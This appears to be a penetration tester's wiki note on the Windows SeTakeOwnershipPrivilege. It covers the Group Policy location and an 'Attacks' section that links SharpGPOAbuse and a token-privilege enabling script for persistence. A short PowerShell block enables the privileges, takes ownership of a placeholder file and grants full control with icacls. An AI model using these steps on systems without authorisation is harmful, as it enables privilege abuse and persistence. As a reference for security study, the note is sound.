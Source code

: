 # SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grant an account to change the ownership of any object as every object has a owner. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object and Administrators are assigned this privilege by default. There are rare and legitimate reasons for account to take ownership over some object it does not own. In practice excessive requirement to change the ownership of some object is problematic as an exposure of objects that probably should be owned by the original owner in the first place. Service accounts that are required to modify object in some storage task were object need to change ownership are more legitmate and common actuallity than a regular user account with this privilege.

Configuration under Group Policy settings:
- `Computer Configuration ->  Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment`

#### Attacks

- GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
- If we require this privilege for [[Windows-Persistence]] and this privilege is not enabled.
	- We can enable with the [EnableAllTokenPrivs script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) 
		- detailed in [Lee Holmes's Blog Post](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) 
		- Extending the concept with [@markmotig - EnableAllTokenPrivileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)

```powershell
import-module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
# Confirm with:
whoami /priv
# takeownership of a file
takeown /f 'C:$PATH...'
# Confirm with:
Get-ChildItem -Path 'C:$PATH...' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
# Modifying the file ACL
# Grant full or partial privileges with icacls
icacls 'C:$PATH...' /grant $username:F
```
Consider reviewing the [[Icacls-Command]] for permissions and syntax to set more granular permissions than just Full.


## References

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)
[WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) 
[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
[EnableAllTokenPrivs script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) 
[Lee Holmes's Blog Post](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/)
[@markmotig - EnableAllTokenPrivileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)